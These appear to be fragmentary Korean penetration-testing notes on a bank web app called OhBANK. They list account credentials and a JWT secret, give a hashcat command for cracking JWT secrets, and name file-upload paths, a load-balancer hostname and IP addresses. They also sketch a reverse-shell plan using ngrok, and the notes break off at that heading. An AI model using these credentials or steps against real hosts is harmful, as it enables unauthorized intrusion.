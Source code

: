 
계정 1.
smlee@finss.co.kr / 205152 / 
smlee2 / 156276 / 
smlee3 /  674894 / 10000

admin / admin 

**jwt**
`secret`

**칼리 명령어**

```
hashcat -a 0 -m 16500 [JWT값] [경로]\jwt.secrets.list

ex)
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNtbGVlMyIsImlzX2FkbWluIjpmYWxzZSwiaWF0IjoxNjk3NDIyMjg5fQ.-zg_b1uYp6G105K_lRVEbeVHOmKDE_r7kfJxGzmkStw ./Desktop/Hacking_data/01.autoAttack/jwt.secrets.list
```


# 서버해킹

*  파일다운로드 취약점 활용 

*  js 쉘?  

/api/qna/fileup
/home/ubuntu/OhBANK/BackendServer/lib/api/Qna/fileup.js

/home/ubuntu/OhBANK/BackendServer/lib/api/Qna/filedownload.js

**업로드경로**
/home/ubuntu/OhBANK/BackendServer/upload/

# api , js  지식 
router.use 사용법 
router.get 사용법 

mydata.js 

* nslookup
http://aaaa-elb-1724495853.ap-northeast-2.elb.amazonaws.com:3000/
43.200.251.188
15.164.65.239
ip 두개중 버프에서는 43.200.251.188로 알려줌


**kali ngrok 다운**

mydata.js 
req.query.port,req.query.ip


**리버스 쉘 접속 순서**
